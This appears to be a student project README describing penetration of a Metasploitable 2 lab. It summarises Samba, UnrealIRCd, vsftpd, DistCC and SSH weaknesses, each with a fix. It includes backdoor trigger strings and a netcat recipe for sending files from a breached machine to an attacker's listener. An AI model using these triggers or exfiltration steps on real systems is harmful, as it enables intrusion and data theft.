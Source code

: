 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/).

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding of system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I will be using different python3 functions. This allows the users to be able to view well documented code in an easy to read format. 

## System Requirements:
- Metasploitable 2
- Virtualbox

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol.
- Exploit: If Samba is configured to use the username map script, anyone can send arbitrary commands in disguise as a username to the server. The data sent to the targeted machine is not sanitized. The command will then be run without needing authorization.
- Fix: To fix this, the user can update to a new version. If they are still on the older version, the user can navigate to /etc/samba/smb.conf on the vulnerable machine. The user can then either comment out or remove the line "username map script = /etc/samba/scripts/mapusers.sh". 

### UnrealIRCd CVE-2010-2075
- Version: 3.2.8.1 
- Desc: UnrealIRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealIRCD contains an exploit where it will execute any command with the priviledges of the user that is running the service if it begins with the string 'AB'. Ex: AB; [command to run].
- Exploit Cont: This exploit was introduced because someone had replaced all UnrealIRCD file download options on their mirror sites with a version that had a trojan in it.
- Fix: The only way to fix this exploit is to redownload a legitamate version of Unreal. This is because the backdoor is located in the "core" of the service (according to the developers).

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Desc: VSFTP is an FTP server for linux. 
- Exploit: There was a backdoor built into the VSFTP service that allows someone to gain root access to a targeted machine if they login with a username that has ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.
- Fix: The individual could update the the service or if they are still running on the version with the backdoor, they could set up an iptable to drop unused ports. (Which should be done anyways). Ex: iptables -A INPUT -p tcp --dport 6200 -j DROP and iptables -A INPUT -p udp --dport 6200 -j DROP

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any.
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security and poor cyber security practices.
- Fix: Use strong passwords that can not be easily guessed. A more secure option would be to set up ssh key pairs.

### DistCC CVE-2004-2687
- Version: 
- Desc: Distccd is a service that allows for a faster compilation time of C programs by distributing the compilation tasks across multiple different machines where it is able to find resources to do so.
- Exploit: DistCCD has a vulnerability that allows an attacker to execute arbitray commands on the targeted system. This is because the distccd daemon improperly handles commands send to it as a compilation request.
- Fix: Other than updating distccd to a version where the exploit has been patched, the user can configure distccd to only accept connection from trusted hosts through the use of a custom firewall configuration.

### 


## Post-Exploitation Examples:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
  - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
  - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
